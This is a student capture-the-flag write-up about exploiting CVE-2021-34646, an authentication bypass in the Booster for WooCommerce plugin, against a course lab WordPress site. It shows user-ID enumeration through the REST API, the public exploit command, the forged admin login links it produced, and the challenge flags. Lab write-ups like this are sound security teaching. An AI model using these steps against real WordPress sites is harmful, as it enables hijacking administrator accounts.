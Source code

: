 # WordPress CVE

## 1st flag

Upon accessing http://ctf-fsi.fe.up.pt:5001, which redirects to a website hosted by WordPress, we started investigating the several pages in search of potential clues.
Since the platform appeared to be a virtual store, we decided to check out the services for sale. 
That is when we stumbled across the following user-review:

![img.png](images/review.png)

This led us to believe that we could exploit vulnerabilities in the plugins to hack the server.
By clicking on a tab beside the review, we discovered all the plugins and respective versions:

![img.png](images/wordpress_plugins.png)

With the newly acquired information, we opened [CVEdetails.com](https://www.cvedetails.com/) to discover the CVEs associated with each plugin.
Considering our objective, we focused on vulnerabilities that allowed authentication bypassing.

After a thorough examination, we came across a Booster for Woocommerce entry whose description mentioned logging in as other users, including administrators: [CVE-2021-34646](https://www.cvedetails.com/cve/CVE-2021-34646/).
Considering this vulnerability only existed in versions `5.4.3` and below of Booster, it affected the website. Inputting `flag{CVE-2021-34646}`, we overcame the first challenge.

## 2nd flag

Having discovered the CVE we would use to exploit the website, we conducted a quick Google search and found [this](https://www.exploit-db.com/exploits/50299) page.
It was an Exploit Database entry for the vulnerability which, among more details about the CVE, contained a set of instructions for exploiting it:

* **1 -** Access http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/ in order to obtain the user id of an administrator.
Since the link redirected us to a JSON document, we searched for the `id` attribute and found out the integer `1` was the id of an administrator.
* **2 -** Download a [Python script](./exploit_CVE-2021-34646.py) and execute it as such:
```shell
python ./exploit_CVE-2021-34646.py http://ctf-fsi.fe.up.pt 1
```
In short, the attack consists in the creation of login validation links with a key encoded in Base64 based on the current timestamp.
Below is the output of running the script:

```commandline
Timestamp: Sun, 08 Oct 2023 15:55:00 GMT
Timestamp (unix): 1696780500

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash f70c7ebdf95ed7d5fe4a19bcc649c67a:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZjcwYzdlYmRmOTVlZDdkNWZlNGExOWJjYzY0OWM2N2EifQ

#1 link for hash 4218280efa71508291581504239678e8:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNDIxODI4MGVmYTcxNTA4MjkxNTgxNTA0MjM5Njc4ZTgifQ

#2 link for hash d6df3f11a406f8a2e456378b27d60587:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZDZkZjNmMTFhNDA2ZjhhMmU0NTYzNzhiMjdkNjA1ODcifQ
```

* **3 -** Use one of the generated links to log in to the system as an administrator.

After successfully hijacking the administrator's account, we accessed http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php as instructed in the CTF guide.
There we found the final flag: ```flag{please don't bother me}```.
